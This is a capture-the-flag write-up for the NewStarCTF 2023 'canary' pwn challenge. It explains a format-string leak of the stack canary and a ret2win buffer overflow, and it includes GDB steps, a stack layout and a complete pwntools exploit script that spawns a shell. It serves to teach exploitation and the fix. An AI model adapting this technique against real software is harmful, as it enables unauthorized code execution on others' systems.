




<div align="center">

# 🐤 canary

### Pwn Writeup · NewStarCTF 2023 Public Track · Format-String Canary Leak → `ret2win`


*A stack canary that never gets tampered with — just read straight out of memory and handed back.*

</div>

---

## 📌 TL;DR

A classic 64-bit stack buffer overflow protected by a stack canary. The binary leaks the canary itself through an unguarded `printf(buf)` **format string vulnerability**, which lets us recover the canary value, rebuild the stack layout exactly, and jump straight into a built-in `backdoor()` function for a shell.

| | |
|---|---|
| **Binary** | `canary` — ELF 64-bit, dynamically linked, No PIE |
| **Bug #1** | `printf(buf)` with no format specifier → arbitrary stack read |
| **Bug #2** | `read(0, buf, 0x100)` into a `0x30`-byte frame → classic overflow |
| **Protections** | Canary **on** · NX **on** · PIE **off** · Full RELRO · CET reported, **not enforced** |
| **Primitive** | Leak canary via `%11$p`, then `ret2win` straight into `backdoor()` |
| **Result** | Shell |

```
Format string leak (%11$p)  →  recover canary
Rebuild stack layout        →  padding + canary + saved rbp + backdoor()
Overflow #2                 →  shell
```

---

## 🗺️ Table of Contents

1. [Recon](#1--recon)
2. [Reconstructing `main`](#2--reconstructing-main)
3. [Stack Layout](#3--stack-layout)
4. [Leaking the Canary](#4--exploiting-the-format-string-to-leak-the-canary)
5. [Final Payload](#5--final-payload)
6. [Exploit Script](#6--exploit-script)
7. [Key Takeaways](#7--key-takeaways)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Recon

```bash
file canary
```

```
canary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, not stripped
```

```bash
checksec --file=canary
```

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

| Protection | Status | Impact on exploitation |
|---|---|---|
| Canary | **On** | A naive padding + return-address overwrite crashes *before* it ever reaches `ret`. Needs a leak first. |
| NX | **On** | No shellcode on the stack — but irrelevant here, since we already have `backdoor()` to jump to. |
| PIE | **Off**, base `0x400000` | Every address (`backdoor`, `main`) is fixed across runs. |
| Full RELRO | On | GOT overwrite is off the table — not needed for this exploit path anyway. |
| SHSTK / IBT (Intel CET) | *Reported* enabled | Hardware control-flow protections. Require specific CPU + kernel + glibc support that most CTF infra doesn't ship with — verified unenforced below. |

**CET sanity check** — `checksec` reads these flags from the binary itself, not from what the *running machine* actually enforces:

```bash
cat /proc/cpuinfo | grep -o shstk
```

Empty output → Shadow Stack is not enforced on this machine, so it's safe to ignore for this writeup. *(On an unknown remote target you can't check this directly, but CET-enforcing CTF infra is rare enough that it's a safe default assumption — and the exploit's local behavior confirms it anyway.)*

```bash
nm canary | grep ' T '
```

```
0000000000401262 T backdoor
00000000004012bc T main
...
```

A `backdoor` function sitting at a fixed address — the usual `ret2win` target.

---

## 2. 🧩 Reconstructing `main`

```bash
objdump -d --no-show-raw-insn -M intel canary
```

```asm
00000000004012bc <main>:
  4012c0: push   rbp
  4012c1: mov    rbp,rsp
  4012c4: sub    rsp,0x30
  4012c8: mov    rax,QWORD PTR fs:0x28     ; load canary from TLS
  4012d1: mov    QWORD PTR [rbp-0x8],rax   ; store it on the stack
  4012d7: mov    eax,0x0
  4012dc: call   4011d6 <init>

  4012e1: lea    rax,[rip+0xd37]
  4012eb: call   401090 <puts@plt>         ; "Welcome to NewStar CTF!!"
  4012f7: call   401090 <puts@plt>         ; "Give me some gift?"

  4012ff: lea    rax,[rbp-0x30]
  401303: mov    edx,0x20                  ; size = 0x20 (32)
  401308: mov    rsi,rax                   ; buf
  40130b: mov    edi,0x0                   ; fd = 0 (stdin)
  401315: call   4010c0 <read@plt>         ; read(0, buf, 0x20)

  401321: call   401090 <puts@plt>         ; "Oh thanks,There is my gift:"

  401329: lea    rax,[rbp-0x30]
  40132d: mov    rdi,rax                   ; rdi = buf  <-- ONLY argument
  401335: call   4010b0 <printf@plt>       ; printf(buf)  <-- THE BUG

  401341: call   401090 <puts@plt>         ; "Show me your magic"

  401349: lea    rax,[rbp-0x30]
  40134d: mov    edx,0x100                 ; size = 0x100 (256)
  401355: mov    edi,0x0
  40135f: call   4010c0 <read@plt>         ; read(0, buf, 0x100)

  401369: mov    rdx,QWORD PTR [rbp-0x8]   ; reload canary
  40136d: sub    rdx,QWORD PTR fs:0x28     ; compare with TLS original
  401376: je     40137d
  401378: call   4010a0 <__stack_chk_fail@plt>
  40137d: leave
  40137e: ret
```

### Reconstructed C

```c
int main(void) {
    char buf[0x28];              // compiler allocated 0x30, canary uses the last 8

    puts("Welcome to NewStar CTF!!");
    puts("Give me some gift?");
    read(0, buf, 0x20);

    puts("Oh thanks,There is my gift:");
    printf(buf);                 // <-- format string bug, should be printf("%s", buf)

    puts("Show me your magic");
    read(0, buf, 0x100);         // <-- real overflow, 256 bytes into a 0x30 frame

    return 0;                    // stack_chk compares canary before this
}
```

Two bugs, two purposes:

| Call | Size | Purpose |
|---|---|---|
| `read` #1 | 32 bytes | **Leak primitive** — too small to overflow anything, but feeds `printf(buf)` |
| `printf(buf)` | — | **Format string bug** — no format specifier, user input *is* the format string |
| `read` #2 | 256 bytes | **Overflow primitive** — plenty of room to smash the canary, saved rbp, and return address |

---

## 3. 📏 Stack Layout



```
rbp-0x30   ┌─────────────────────┐  ← buffer start
           │   buf (0x28 bytes   │
           │   usable before     │
           │   canary)           │
rbp-0x08   ├─────────────────────┤  ← canary (8 bytes, random, always ends in 0x00)
rbp+0x00   ├─────────────────────┤  ← saved rbp
rbp+0x08   ├─────────────────────┤  ← return address
           └─────────────────────┘
```

- `buf` to `canary`: `0x30 - 0x08 = 40` bytes.
- `canary` to `return address`: canary (8) + saved rbp (8) = 16 more bytes.

The canary always has its **least-significant byte set to `0x00`** (little-endian) — a deliberate design choice so naive `strcpy`-style overflows get null-terminated before they can smash it. It's also a handy fingerprint for spotting the leaked value.

---

## 4. 🎯 Exploiting the Format String to Leak the Canary

`printf(buf)` with no explicit arguments means `printf` pulls its "missing" arguments straight from the x86-64 variadic calling convention slots:



```
argument #1 → rdi   (this is buf itself, not user-controlled)
argument #2 → rsi   →  %1$p
argument #3 → rdx   →  %2$p
argument #4 → rcx   →  %3$p
argument #5 → r8    →  %4$p
argument #6 → r9    →  %5$p
argument #7+ → stack, read sequentially →  %6$p, %7$p, %8$p, ...
```

### Step 1 — find where `buf` itself lands

Sent `%1$p%2$p%3$p%4$p%5$p%6$p%7$p%8$p` (32 bytes exactly fits the first `read`). Slots 6–8 came back as the raw bytes of our own payload (`%1$p%2$p`), confirming slot **6** is the start of `buf` on the stack.

### Step 2 — count forward to the canary

```
buf = 32 bytes = 4 stack slots (8 bytes each) → slots 6, 7, 8, 9
gap  = 8 bytes (1 slot)                       → slot 10
canary                                        → slot 11
```

### Step 3 — verify experimentally (don't trust the math alone)

```bash
gdb ./canary
break *0x401335      # right before printf — canary is already set, buf not yet printed
run
```

```
%9$p.%10$p.%11$p.%12$p.%13$p
x/gx $rbp-0x8         # ground truth, before continuing
continue              # let printf run, compare output
```

```
x/gx $rbp-0x8  →  0x7db5a50f9e80bc00
%11$p          →  0x7db5a50f9e80bc00   ✓ match
```

Confirmed: **the canary is always `%11$p`** in this binary's stack layout.

```
Leak payload: %11$p
```

---

## 5. 🔗 Final Payload



```
[ 40 bytes  padding          ]   fills buf up to the canary
[  8 bytes  leaked canary    ]   must match exactly or __stack_chk_fail() fires
[  8 bytes  junk             ]   overwrites saved rbp, value doesn't matter
[  8 bytes  backdoor address ]   0x401262, overwrites the return address
```

---

## 6. 🚀 Exploit Script

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./canary')

p = process('./canary')
# p = remote('target_ip', target_port)

backdoor = 0x401262

# --- Stage 1: leak the canary via the format string bug ---
p.recvuntil(b'gift?\n')
p.sendline(b'%11$p')

p.recvuntil(b'gift:\n')
leak = p.recvline().strip()
canary = int(leak, 16)
log.info(f"Leaked canary: {hex(canary)}")

# --- Stage 2: rebuild the stack and hijack control flow ---
payload  = b'A' * 40          # padding up to the canary
payload += p64(canary)        # exact canary value, keeps __stack_chk_fail happy
payload += b'B' * 8           # saved rbp, don't care
payload += p64(backdoor)      # return address -> backdoor()

p.recvuntil(b'magic\n')
p.sendline(payload)

p.interactive()
```

Result: shell. 🎉

---

## 7. 🧠 Key Takeaways

- **Stack canaries don't stop information leaks.** They only detect *tampering*, not *reading*. Any bug that lets the program echo back its own stack memory (format strings, uninitialized reads, off-by-ones that print adjacent memory, etc.) defeats them completely.
- **`printf(user_input)` is always a bug.** The fix is trivial (`printf("%s", user_input)`), but the consequence of missing it — full memory disclosure via `%p`/`%s`/`%n` — is severe.
- **`%N$p` is a precision tool.** Instead of spraying `%p %p %p...` and counting offsets in the output, directly addressing argument N (`%11$p`) lets you binary-search or jump straight to a known offset once it's been mapped out once.
- **Always verify stack offsets against ground truth in GDB** rather than trusting arithmetic alone — especially when converting hex literals to decimal (`0x30` is 48, not 32), which is an easy place to introduce silent off-by-N errors.
- **Modern hardware mitigations (CET/SHSTK/IBT) reported by `checksec` are not automatically "enforced."** They depend on CPU generation, kernel support, and glibc build flags. Always check `/proc/cpuinfo` before assuming they block your technique.

---


<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
